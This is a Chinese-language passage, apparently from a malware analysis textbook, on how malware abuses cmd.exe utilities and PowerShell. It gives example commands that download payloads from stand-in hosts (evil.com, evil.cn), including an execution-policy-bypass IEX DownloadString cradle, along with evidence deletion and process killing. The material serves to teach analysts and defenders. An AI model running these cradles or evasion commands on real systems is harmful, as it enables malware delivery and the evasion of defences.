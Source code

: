 表 15-2 列出了其他一些命令和工具，它们有时会被恶意软件滥用以执行恶意操作。这个列表并不详尽，因为有许多命令可以通过*cmd.exe*调用。

<samp class="SANS_Futura_Std_Heavy_B_11">表 15-2：</samp> <samp class="SANS_Futura_Std_Book_11">恶意软件可能使用的工具和命令</samp>

| <samp class="SANS_Futura_Std_Heavy_B_11">工具/命令</samp> | <samp class="SANS_Futura_Std_Heavy_B_11">示例</samp> | <samp class="SANS_Futura_Std_Heavy_B_11">描述</samp> |
| --- | --- | --- |
| <samp class="SANS_TheSansMonoCd_W5Regular_11">curl</samp> | <samp class="SANS_TheSansMonoCd_W5Regular_11">cmd.exe /c curl -o output _file</samp> <samp class="SANS_TheSansMonoCd_W5Regular_11">https://evil.com/evil.gif</samp> | <samp class="SANS_Futura_Std_Book_11">传输数据。恶意软件可能会用它来下载附加载荷并将其写入文件，或将数据外泄到远程 Web 服务器。</samp> |
| <samp class="SANS_TheSansMonoCd_W5Regular_11">del</samp> | <samp class="SANS_TheSansMonoCd_W5Regular_11">cmd.exe /c del C:\Users\</samp><samp class="SANS_TheSansMonoCd_W5Regular_Italic_I_11">David</samp><samp class="SANS_TheSansMonoCd_W5Regular_11">\Temp\RegScvs.exe</samp> | <samp class="SANS_Futura_Std_Book_11">删除文件。恶意软件可能会用它删除证据，如可执行文件和临时文件，从受害者的系统中。</samp> |
| <samp class="SANS_TheSansMonoCd_W5Regular_11">ipconfig.exe</samp> | <samp class="SANS_TheSansMonoCd_W5Regular_11">cmd.exe /c ipconfig.exe</samp> | <samp class="SANS_Futura_Std_Book_11">显示网络配置设置。恶意软件可能会调用它来获取受害者的本地 IP 地址或其他网络信息。</samp> |
| <samp class="SANS_TheSansMonoCd_W5Regular_11">ping</samp> | <samp class="SANS_TheSansMonoCd_W5Regular_11">cmd.exe /c ping 8.8.8.8</samp> | <samp class="SANS_Futura_Std_Book_11">向远程服务器发送 Ping 请求。恶意软件可能会利用它来检查受害者是否连接到互联网（例如作为沙箱检测技术），或者与其 C2 服务器进行初步联系。</samp> |
| <samp class="SANS_TheSansMonoCd_W5Regular_11">sc</samp> | <samp class="SANS_TheSansMonoCd_W5Regular_11">cmd.exe /c sc query</samp> | <samp class="SANS_Futura_Std_Book_11">启动、停止、创建、修改或查询系统中的服务，具体取决于相应的选项（例如此处显示的</samp> <samp class="SANS_TheSansMonoCd_W5Regular_11">query</samp><samp class="SANS_Futura_Std_Book_11">）。</samp> |
| <samp class="SANS_TheSansMonoCd_W5Regular_11">taskkill.exe</samp> | <samp class="SANS_TheSansMonoCd_W5Regular_11">cmd.exe /c taskkill.exe /f</samp> <samp class="SANS_TheSansMonoCd_W5Regular_11">/</samp><samp class="SANS_TheSansMonoCd_W5Regular_11">IM</samp> <samp class="SANS_TheSansMonoCd_W5Regular_11">evil.exe</samp> | <samp class="SANS_Futura_Std_Book_11">终止进程。恶意软件可能会调用此命令来杀死其自身的进程或分析工具和终端防御。</samp> |
| <samp class="SANS_TheSansMonoCd_W5Regular_11">timeout.exe</samp> | <samp class="SANS_TheSansMonoCd_W5Regular_11">cmd.exe /c timeout /t 120 nobreak>nul</samp> | <samp class="SANS_Futura_Std_Book_11">在批处理脚本中暂停执行。恶意软件可能会执行它，尝试使“愚笨”的恶意软件分析沙箱超时。</samp> |

虽然这一部分只是简单地介绍了 Windows 命令行的表面，但这些是恶意软件滥用 Windows 操作系统各种实用工具和命令的几种方式。由于 *cmd.exe* 是合法的 Windows 二进制文件，其中一些操作可能会被终端防御系统和分析人员忽视，因此了解这些技术非常重要。

#### <samp class="SANS_Futura_Std_Bold_Condensed_Oblique_I_11">PowerShell</samp>

利用 PowerShell 是现代威胁中最常见的“借用土地”技术之一。*PowerShell* 是内建于 Windows 中的框架，合法的系统用户和恶意软件都可以使用它来执行几乎任何 Windows 管理或配置任务。PowerShell 提供了许多命令，称为 *cmdlets*，这些命令赋予了该框架强大的功能（玩笑的意思）。PowerShell 构建于 .NET 平台之上，为 Windows 开发人员提供了许多库来构建新应用程序。PowerShell 可以通过命令行交互式运行，但在恶意软件的上下文中，它通常通过 Windows API 执行自动化脚本或单行命令（例如使用 <samp class="SANS_TheSansMonoCd_W5Regular_11">CreateProcess</samp>）。

##### <samp class="SANS_Futura_Std_Bold_Condensed_B_11">实现支架</samp>

PowerShell 在恶意软件中的一个最常见应用是 *启动器*，它是一个命令（通常是单行命令），用于从暂存服务器下载附加的恶意软件或模块，有时还会直接执行这些文件。以下是恶意软件可能实现启动器的一种方式：

```
C:\> powershell.exe Invoke-WebRequest "http://evil.cn/zzl2.cab" -OutFile
"$ENV:UserProfile\crypt.dll"
```

让我们来分析这个 PowerShell 命令。首先，它利用了 <samp class="SANS_TheSansMonoCd_W5Regular_11">Invoke-WebRequest</samp> cmdlet，它向远程 Web 服务器发送 HTTP 或 HTTPS 请求。这个 cmdlet 接受作为输入的 Web 服务器地址和将要下载的文件的目录路径（*zzl2.cab*）。最后，<samp class="SANS_TheSansMonoCd_W5Regular_11">-OutFile</samp> 标志表示保存文件的目录路径和文件名。这个恶意的 *zzl2.cab* 文件将被保存在用户的个人资料目录中（由环境变量 <samp class="SANS_TheSansMonoCd_W5Regular_11">$ENV:UserProfile</samp> 指示），文件名为 *crypt.dll*。由于 PowerShell 基于 .NET，它可以直接访问并利用许多 .NET 方法和类：

```
C:\> powershell.exe -exec bypass -C "IEX(New-Object Net.WebClient)
.DownloadString('http://www.evil.cn/bad.ps1')"
```

在这个命令中，<samp class="SANS_TheSansMonoCd_W5Regular_11">-exec</samp> 标志告诉 PowerShell 绕过任何会阻止命令执行的执行策略。PowerShell 执行策略在 Windows 中配置，以防止某些 PowerShell 操作，但有时可以相当容易地绕过。<samp class="SANS_TheSansMonoCd_W5Regular_11">IEX</samp> 是 <samp class="SANS_TheSansMonoCd_W5Regular_11">Invoke-Expression</samp> 的缩写，它将执行前面的字符串作为命令。命令的下一部分，<samp class="SANS_TheSansMonoCd_W5Regular_11">(New-Object Net.WebClient).DownloadString</samp> 表达式，创建了一个新的 .NET <samp class="SANS_TheSansMonoCd_W5Regular_11">WebClient</samp> 对象，并使用 <samp class="SANS_TheSansMonoCd_W5Regular_11">DownloadString</samp> 方法，这是恶意软件向远程 Web 服务器发送 Web 请求并下载有效负载的另一种方式。该有效负载将从 *http://<wbr>www<wbr>.evil<wbr>.cn* 下载，并直接在内存中执行。如果你有兴趣了解更多关于 PowerShell 启动器的信息，请查看 [*https://<wbr>gist<wbr>.github<wbr>.com<wbr>/mgeeky<wbr>/3b11169ab77a7de354f4111aa2f0df38*](https://gist.github.com/mgeeky/3b11169ab77a7de354f4111aa2f0df38) 和 [*https://<wbr>gist<wbr>.github<wbr>.com<wbr>/HarmJ0y<wbr>/bb48307ffa663256e239*](https://gist.github.com/HarmJ0y/bb48307ffa663256e239)。
